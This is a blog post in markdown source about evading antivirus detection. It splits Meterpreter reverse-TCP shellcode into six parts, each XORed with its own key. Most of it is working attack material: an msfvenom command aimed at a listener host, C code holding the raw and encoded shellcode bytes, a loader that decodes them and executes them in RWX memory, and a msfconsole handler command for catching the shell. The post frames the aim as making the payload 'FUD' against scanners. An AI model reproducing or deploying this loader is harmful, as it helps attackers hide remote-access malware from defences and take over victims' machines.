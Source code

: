 ```yaml
---
layout: post
title: Antivirus Evasion - Divide and XOR
subtitle: Only one? But Works.
cover-img: /assets/img/evasion/xor/evasion-thumb.png
thumbnail-img: ""
tags: [evasion, security]
---
```

Ahhh! After our defeat in the last battle of making a FUD payload, we meet here again (Pss. We still reduced the detection from 13 to 7).

If you haven't read those articles, go through it at [Antivirus Evasion - XOR Encryption](https://mandarnaik016.github.io/2024-03-24-antivirus-evasion-using-xor-encryption/).

Unlike last time, we were using a shellcode that runs **calc.exe** after XOR encryption; this time things are getting pretty serious. We will be using a reverse TCP shellcode and the same encoding scheme in a different way.

![cat one man army](../assets/img/evasion/divide-xor/army-ready.webp)

The plan is below. Go through it.

![XOR encode](../assets/img/evasion/divide-xor/xor-encode.webp)

![XOR decode](../assets/img/evasion/divide-xor/xor-decode.webp)

This time we will use the divide and XOR methods. We will divide the shell code into six equal parts and XOR each part with a different key. Then we will perform the reverse operation, i.e., we will perform the XOR operation on the XORed parts with their respective keys.

Generate a shellcode using the below command.
~~~
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.6 LPORT=6210 -b "\x00\x04\xA0" -f c -e x64/xor -i 6 -o "shell.c"
~~~

![msfvenom shellcode command](../assets/img/evasion/divide-xor/msfvenom-shellcode-command.webp)

We are using a encoder here with 6 iterations. Feel free to customize it according to your needs.

The below template is used to perform divide and XOR operation.

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void divideAndXOR(char buf[], int buflen, int keys[], int numKeys, char *parts[]) {
    int partSize = buflen / numKeys;
    for (int i = 0; i < numKeys; i++) {
        for (int j = 0; j < partSize; j++) {
            parts[i][j] = buf[i * partSize + j] ^ keys[i];
        }
        parts[i][partSize] = '\0'; // Null-terminate the string
    }
}

int main() {
    char buf[] = "\x48\x31\xc9\x48\x81\xe9\xa7\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x39\xa6\xe5\x28\x42\xff\x8f\xad\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x71\x97\x2c\x60\xc3\x16\x23\x52\xc6\x59\xad\xa5\x47\x10\x70\x52\xc6\xee\x5e\xe4\xcd\x0c\x2e\xd4\xc5\xe5\x34\x60\x73\xa7\xa8\xe5\x14\x5e\x1a\xd7\xbd\x1d\x7b\x29\x87\x9c\x0c\xd0\x57\x0d\xa1\x9e\x49\x1d\xc9\x54\x51\x43\xa1\x9e\xfe\xee\x6f\x94\x48\x61\xd5\xc5\xf5\x69\x0c\x60\xe6\x9b\x16\x4c\x4e\xaa\xbb\xae\x5c\x48\x3d\x95\x89\xc0\x4e\x1c\x4b\x7f\x8a\x5b\x08\x05\xca\x1a\x02\x7f\x8a\xec\xfb\x1a\x72\x96\x17\xef\xc6\x8a\xd0\xc0\xfe\xad\xda\xc8\x58\x5c\xbf\x77\x30\x17\x09\x5a\xf9\x0e\xe2\x66\x95\x60\x92\xed\x37\x8f\x27\xe2\x93\x24\x92\xed\x80\x7c\x3a\x17\x39\xec\x76\x0c\xe4\xd6\xe2\xd6\x24\xfc\x25\x3f\x30\x38\x55\x18\x9e\x2f\xb5\xd3\x44\xb8\x30\x10\x90\x35\x02\x1d\xc5\x7d\xb4\x16\xaf\x35\x02\xaa\x36\x07\x6a\x32\xc5\xe8\x78\xa9\x0f\xb8\x80\xa1\x77\x82\xd0\x1a\x72\x0f\x4e\x1b\xa4\xc1\x6e\xaa\xfc\x22\xdc\x7e\xd2\x3d\x26\x68\x49\x93\x64\xe0\x9a\x0c\xf4\x78\x4e\xb7\x7c\x39\x80\x5d\x6e\xa2\x4a\xca\x7c\x39\x80\x1d\x6e\xa2\x6a\x82\x79\x83\x1b\x75\x29\x9e\x52\x98\x7c\x83\x12\x91\x1a\x48\x64\xd0\x18\x92\x93\xfc\xef\x24\x59\xd3\xf5\x50\x3f\x6f\x67\x78\x50\x59\x66\x92\x59\x7f\x1a\x61\x19\x02\x52\x33\xaa\x25\x2d\x2b\x17\x57\x46\xb2\xd2\x3d\xad\xa9\x90\xd2\x34\xb2\x9a\xb8\xe6\x5d\x7f\x9a\x35\x62\x59\x75\x3e\x6d\x93\x92\x14\xe2\x9b\x3c\xf6\xca\x4e\x9a\xcb\x7b\x93\xb6\x12\xa1\x55\xe3\xfd\xfa\xd3\xeb\x6e\x18\xd8\x93\xf5\x7b\xdf\x91\x67\x28\xd9\xea\xd4\xc7\x23\x71\x25\x65\x3c\xda\x71\x8b\x03\x48\xfe\x71\x5c\x59\x74\x96\x9b\x3c\xf6\x4f\x59\x59\x38\xfa\x96\xb6\x66\x35\x51\xd3\xe4\xf3\x59\x39\xae\x61\x19\x02\x75\xea\x93\x65\x78\x70\x42\x93\x6c\xf3\x8b\x7c\x7c\x61\x9b\x3e\x14\xf3\x80\xc2\xc6\x71\x59\x8b\x6e\xfa\x59\x2f\xcf\x62\xe7\x2d\xcb\xef\x9b\x83\x51\x5a\x2a\x8d\x07\x80\xd2\x3d\x67\x7f\x51\x5b\xd2\xfa\x53\xd1\x86\x28\x18\xd2\x7d\x3b\x37\x74\x9a\x2b\x18\xca\x76\x72\x7a\x3c\x20\x68\x4c\x9b\xbd\x56\x9e\xb4\xd7\x68\xa2\x9e\x43\x94\xd5\xc2\xf3\x65\x91\x38\x5c\xb3\xd3\x3d\x26\x70\x59\x68\x1d\x32\xb9\x3d\xd9\xfc\x72\xd8\x75\xec\x82\x6d\x6b\x18\xd1\x9f\x05\x72\x9a\xc2\xe6\x61\x91\x10\x7c\x4d\x12\x75\xaf\xe8\x59\x68\xde\xbd\x0d\xdd\xd9\xfc\x50\x5b\xf3\xd8\xc2\x7c\x7e\x65\x91\x30\x7c\x3b\x2b\x7c\x9c\xb0\xbd\xa6\x55\x4d\x07\xb8\xe6\x5d\x12\x9b\xcb\x7c\xa7\xd8\xce\xba\x18\xd2\x34\xfa\x51\xd1\x36\x61\x91\x30\x79\x83\x1b\x57\x22\x68\x40\x9a\xbd\x4b\x93\x87\x24\xf0\xd0\x8d\xcb\x67\x51\xc5\x26\x57\x4d\x9a\xb7\x76\xf2\x63\xaf\xdf\x72\x92\x75\xeb\xba\x3d\x36\x29\x18\x93\x6c\xfa\x5b\xcf\x6e\x18\xd1\x93\x8e\xea\x76\x6e\xc3\xd6\xcd\x9a\xbd\x71\x9b\xb4\xe1\x64\x29\x1b\x7d\x3b\x22\x75\xaf\xf3\x50\x5b\xcd\xf3\x68\x3f\xff\xe1\x47\x2d\xe1\x31\x2a\x3d\x5b\x01\x40\x93\x63\xeb\xba\x3d\x66\x29\x18\x93\x6c\xd8\xd2\x67\x67\x93\x13\xfd\x3b\x82\x2d\xe8\x71\x70\x59\x68\x41\xdc\x9f\x5c\xd9\xfc\x51\x2d\xfa\x5b\xee\xc2\xd9\xd6\x50\xd3\xf7\xfa\xfb\xfb\x6e\xac\xee\xa7\x80\xf3\x2d\xda\x7e\x43\x18\x8b\x7d\x75\x10\xcd\x93\x8b\x4e\x2d\xe1\xb2\xd2\xca\x6d\x80\x5e\xad"; // Replace shellcode
    int keys[] = {0x0C, 0x04, 0x08, 0x0B, 0x01, 0x09}; // keys For XOR
    int buflen = strlen(buf);
    printf("Buf Length: %d\n", buflen);
    int numKeys = sizeof(keys) / sizeof(keys[0]);
    char *parts[numKeys];

    for (int i = 0; i < numKeys; i++) {
        parts[i] = malloc((buflen / numKeys) + 1); // +1 for null-terminator
    }

    divideAndXOR(buf, buflen, keys, numKeys, parts);

    for (int i = 0; i < numKeys; i++) {
        printf("\"", i + 1);
        for (int j = 0; j < buflen / numKeys; j++) {
            printf("\\x%02x", (unsigned char)parts[i][j]);
        }
        printf("\",\n");
    }

    for (int i = 0; i < numKeys; i++) {
        free(parts[i]);
    }

    return 0;
}
~~~

{: .box-note}
**NOTE:** Replace only the shellcode as single line do not include unnecessary comma and new lines.

After we compile the above C lang code we get respective XORed parts along with buf length.


![XORed parts](../assets/img/evasion/divide-xor/xored-parts.webp)

Replace the buf length and XORed parts in below template

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

void inverseXOR(char *parts[], int buflen, int keys[], int numKeys, char *result)
{
    int partSize = buflen / numKeys;
    for (int i = 0; i < numKeys; i++)
    {
        for (int j = 0; j < partSize; j++)
        {
            result[i * partSize + j] = parts[i][j] ^ keys[i];
        }
    }
    result[buflen] = '\0'; // Null-terminate the string
}

int main()
{
    char *parts[] = {
        "\x44\x3d\xc5\x44\x8d\xe5\xab\xf3\xf3\xf3\x44\x81\x09\xe3\xf3\xf3\xf3\x44\xb7\x35\xaa\xe9\x24\x4e\xf3\x83\xa1\x44\x3d\x54\x2b\x44\x21\xf4\xf3\xf3\xf3\xee\xf8\x7d\x9b\x20\x6c\xcf\x1a\x2f\x5e\xca\x55\xa1\xa9\x4b\x1c\x7c\x5e\xca\xe2\x52\xe8\xc1\x00\x22\xd8\xc9\xe9\x38\x6c\x7f\xab\xa4\xe9\x18\x52\x16\xdb\xb1\x11\x77\x25\x8b\x90\x00\xdc\x5b\x01\xad\x92\x45\x11\xc5\x58\x5d\x4f\xad\x92\xf2\xe2\x63\x98\x44\x6d\xd9\xc9\xf9\x65\x00\x6c\xea\x97\x1a\x40\x42\xa6\xb7\xa2\x50\x44\x31\x99\x85\xcc\x42\x10\x47\x73",
        "\x8e\x5f\x0c\x01\xce\x1e\x06\x7b\x8e\xe8\xff\x1e\x76\x92\x13\xeb\xc2\x8e\xd4\xc4\xfa\xa9\xde\xcc\x5c\x58\xbb\x73\x34\x13\x0d\x5e\xfd\x0a\xe6\x62\x91\x64\x96\xe9\x33\x8b\x23\xe6\x97\x20\x96\xe9\x84\x78\x3e\x13\x3d\xe8\x72\x08\xe0\xd2\xe6\xd2\x20\xf8\x21\x3b\x34\x3c\x51\x1c\x9a\x2b\xb1\xd7\x40\xbc\x34\x14\x94\x31\x06\x19\xc1\x79\xb0\x12\xab\x31\x06\xae\x32\x03\x6e\x36\xc1\xec\x7c\xad\x0b\xbc\x84\xa5\x73\x86\xd4\x1e\x76\x0b\x4a\x1f\xa0\xc5\x6a\xae\xf8\x26\xd8\x7a\xd6\x39\x22\x6c\x4d\x97\x60\xe4\x9e",
        "\x04\xfc\x70\x46\xbf\x74\x31\x88\x55\x66\xaa\x42\xc2\x74\x31\x88\x15\x66\xaa\x62\x8a\x71\x8b\x13\x7d\x21\x96\x5a\x90\x74\x8b\x1a\x99\x12\x40\x6c\xd8\x10\x9a\x9b\xf4\xe7\x2c\x51\xdb\xfd\x58\x37\x67\x6f\x70\x58\x51\x6e\x9a\x51\x77\x12\x69\x11\x0a\x5a\x3b\xa2\x2d\x25\x23\x1f\x5f\x4e\xba\xda\x35\xa5\xa1\x98\xda\x3c\xba\x92\xb0\xee\x55\x77\x92\x3d\x6a\x51\x7d\x36\x65\x9b\x9a\x1c\xea\x93\x34\xfe\xc2\x46\x92\xc3\x73\x9b\xbe\x1a\xa9\x5d\xeb\xf5\xf2\xdb\xe3\x66\x10\xd0\x9b\xfd\x73\xd7\x99\x6f\x20\xd1\xe2",
        "\xdf\xcc\x28\x7a\x2e\x6e\x37\xd1\x7a\x80\x08\x43\xf5\x7a\x57\x52\x7f\x9d\x90\x37\xfd\x44\x52\x52\x33\xf1\x9d\xbd\x6d\x3e\x5a\xd8\xef\xf8\x52\x32\xa5\x6a\x12\x09\x7e\xe1\x98\x6e\x73\x7b\x49\x98\x67\xf8\x80\x77\x77\x6a\x90\x35\x1f\xf8\x8b\xc9\xcd\x7a\x52\x80\x65\xf1\x52\x24\xc4\x69\xec\x26\xc0\xe4\x90\x88\x5a\x51\x21\x86\x0c\x8b\xd9\x36\x6c\x74\x5a\x50\xd9\xf1\x58\xda\x8d\x23\x13\xd9\x76\x30\x3c\x7f\x91\x20\x13\xc1\x7d\x79\x71\x37\x2b\x63\x47\x90\xb6\x5d\x95\xbf\xdc\x63\xa9\x95\x48\x9f\xde\xc9\xf8",
        "\x64\x90\x39\x5d\xb2\xd2\x3c\x27\x71\x58\x69\x1c\x33\xb8\x3c\xd8\xfd\x73\xd9\x74\xed\x83\x6c\x6a\x19\xd0\x9e\x04\x73\x9b\xc3\xe7\x60\x90\x11\x7d\x4c\x13\x74\xae\xe9\x58\x69\xdf\xbc\x0c\xdc\xd8\xfd\x51\x5a\xf2\xd9\xc3\x7d\x7f\x64\x90\x31\x7d\x3a\x2a\x7d\x9d\xb1\xbc\xa7\x54\x4c\x06\xb9\xe7\x5c\x13\x9a\xca\x7d\xa6\xd9\xcf\xbb\x19\xd3\x35\xfb\x50\xd0\x37\x60\x90\x31\x78\x82\x1a\x56\x23\x69\x41\x9b\xbc\x4a\x92\x86\x25\xf1\xd1\x8c\xca\x66\x50\xc4\x27\x56\x4c\x9b\xb6\x77\xf3\x62\xae\xde\x73\x93\x74\xea",
        "\xb3\x34\x3f\x20\x11\x9a\x65\xf3\x52\xc6\x67\x11\xd8\x9a\x87\xe3\x7f\x67\xca\xdf\xc4\x93\xb4\x78\x92\xbd\xe8\x6d\x20\x12\x74\x32\x2b\x7c\xa6\xfa\x59\x52\xc4\xfa\x61\x36\xf6\xe8\x4e\x24\xe8\x38\x23\x34\x52\x08\x49\x9a\x6a\xe2\xb3\x34\x6f\x20\x11\x9a\x65\xd1\xdb\x6e\x6e\x9a\x1a\xf4\x32\x8b\x24\xe1\x78\x79\x50\x61\x48\xd5\x96\x55\xd0\xf5\x58\x24\xf3\x52\xe7\xcb\xd0\xdf\x59\xda\xfe\xf3\xf2\xf2\x67\xa5\xe7\xae\x89\xfa\x24\xd3\x77\x4a\x11\x82\x74\x7c\x19\xc4\x9a\x82\x47\x24\xe8\xbb\xdb\xc3\x64\x89\x57"}; // Replace XORed Parts In This Array
    int buflen = 751; // Replace Buf Length
    int keys[] = {0x0C, 0x04, 0x08, 0x0B, 0x01, 0x09}; // Same Keys
    int numKeys = sizeof(keys) / sizeof(keys[0]);
    char result[buflen + 1]; // +1 for null-terminator

    inverseXOR(parts, buflen, keys, numKeys, result);

    void *exec = VirtualAlloc(0, sizeof result, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, result, sizeof result);
    ((void (*)())exec)();

    return 0;
}
~~~

After compiling the program lets check the result

Open a listener using below command
~~~
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.6; set lport 6210; exploit"
~~~

Before execution
![msfconsole listener](../assets/img/evasion/divide-xor/msfconsole-listener.webp)

After execution
![final xored working](../assets/img/evasion/divide-xor/final-xored-working.webp)

![successful listener](../assets/img/evasion/divide-xor/successful-listener.webp)

Lets check some commads

![command working](../assets/img/evasion/divide-xor/command-working.webp)

But sadly we were only able to reduce the detection by only 1 check at [kleenscan](https://kleenscan.com/scan_result/bc961af001b60d00f1322ffe4212351febc59cf07a475fdb09b5d3761d07f3a5).

![antivirus detection](../assets/img/evasion/divide-xor/antivirus-detection.webp)

Hope for the best and we will come back stronger with an inevitable method to make payload FUD.

![cat army](../assets/img/evasion/divide-xor/cat-army.webp)